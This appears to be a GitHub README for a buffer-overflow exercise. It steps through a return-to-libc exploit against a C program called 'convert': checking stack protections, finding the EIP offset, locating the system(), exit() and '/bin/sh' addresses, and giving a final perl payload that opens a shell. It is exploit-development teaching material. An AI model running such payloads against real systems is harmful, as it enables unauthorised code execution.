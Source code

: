 # buffer-overflow
exploit vulnerable c/c++ programms with buffer overflow attacks
___
#### `convert` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x0804869c <+0>:	push   %ebp
   .........  ....: ....   ....
   .........  ....: ....   ....
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary, but in this case this mechanism wasn't enabled.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x80485b0
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4` this line indicated that the Stack is Read-Write but not executable, so we have one defensive mechanism to bypass.

###### Determine the size of the buffer to override the instruction pointer `$eip`
```
$ gdb convert
(gdb) run 1 $(perl -e 'print "A"x744 . "B"x4 . "C"x4 . "D"x4')
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
    eax            0x0	0
    ecx            0xbfffef78	-1073746056
    edx            0xb7fd3360	-1208143008
    ebx            0x41414141	1094795585
    esp            0xbffff2c0	0xbffff2c0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x42424242	1111638594
    eip            0x44444444	0x44444444
    eflags         0x10296	[ PF AF SF IF RF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
```
So the size of the buffer to overwrite the `$eip` is 756.
###### Sketch memory layout and attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/convert_attact.png" width="400" height="300" />
###### Find the addresses needed for the attack
``` 
$ gdb convert
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7eadc30 <system>
```
**system() address**: `0xb7eadc30`
```
(gdb) find &system,+9999999,"/bin/sh"  
0xb7fae194
```
**'/bin/sh' address**: `0xb7fae194`
```
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ea1270 <exit>
```
**exit() address**: `0xb7ea1270`
###### Create your inputs according to the sketch and run the programm
```
$ ./convert 1 $(perl -e 'print "\x90"x752 .  "\x30\xdc\xea\xb7"  . "\x70\x12\xea\xb7" . "\x94\xe1\xfa\xb7"')
$ (unlocked shell)
````
